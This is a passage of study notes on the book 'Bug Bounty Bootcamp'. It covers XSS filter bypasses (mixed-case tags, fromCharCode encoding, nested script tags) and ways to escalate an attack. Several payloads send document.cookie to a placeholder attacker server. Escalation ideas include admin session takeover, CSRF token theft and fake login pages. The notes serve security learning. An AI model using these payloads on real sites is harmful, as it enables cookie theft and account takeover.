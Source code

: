 **Capitalization and Encoding**

- "You can also mix different encodings and capitalizations to confuse the XSS filter. For example, if the filter filters for only the string "script", capitalize certain letters in your payload": `<scrIPT>location='http://attacker_server_ip/c='+document.cookie;</scrIPT>`
- If the app filters special HTML characters like single and double quotes, you could use the JavaScript `fromCharCode()` function which maps numeric codes to the corresponding ASCII characters.
  - The following is equivalent to `"http://attacker_server_ip/?c="`:
    `String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)`
  - Using this in conjunction with capitalization could look like this: `<scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookies;</scrIPT>`
  - You can convert strings using an online JavaScript editor like [https://js.do/](https://js.do) by copying the following code and changing `encoded = "INPUT_STRING"` to whatever you're trying to translate and then clicking the "Run code" button on the top left of the code window:
    ```
    <script>
    function ascii(c){
      return c.charCodeAt();
    }
    encoded = "INPUT_STRING".split("").map(ascii);
    document.write(encoded);
    </script>
    ```
  - I've written a python script to be able to convert strings locally or to be used in a larger framework [here](https://github.com/Xerips/BookNotes/blob/main/BugBountyBootcamp/Scripts/convert_to_charcode.py).

**Filter Logic Errors**

- "...sometimes application remove all `<script>` tags in the user input to prevent XSS, but do it only once. If that's the case, you can use a payload like this:"
  `<scrip<script>t>
location='http://attacker_server_ip/c='+document.cookie;
</scrip</script>t>`
  - By cutting the script tag in two, the filter may not recognize the broken script tag and once the complete script tag is removed, the intact script tag forms the payload.
- XSS protection is hard to do right, that's why XSS is still prevalent today.
- More filter-bypass ideas on OWASP's XSS filter evasion [cheat sheet](https://owaps.org/www-community/xss-filter-evasion-cheatsheet).
  - Or, Google XSS "filter bypass".

**Escalating the Attack**

- Stored XSS on a public forum can attack anyone who visits the forum page, and is considered the most severe.
- Reflected or DOM XSS can only affect users who click the malicious link.
- If you find a stored XSS vulnerability in server logs, the XSS can take over admin sessions.
  - If you can take over one of these high privileged accounts, the XSS could compromise the integrity of the entire application.
  - You could gain access to customer information, internal files, API keys, you might even be able to escalate into RCE by uploading a shell or execute scripts as the admin.
- You may also be able to steal the Cross Site Request Forgery (CSRF) token embedded on the victim's page. If you can steal the CSRF token, you can execute actions on their behalf by using those tokens to bypass CSRF protections (Chapter 9).
- "XSS can also be used to dynamically alter the page the victim sees, so you can replace the page with a fake login page and trick the user into giving you their credentials."
- "XSS can also allow attackers to automatically redirect the victim to malicious pages and perform other harmful operations while posing as the legit site, such as installing malware."
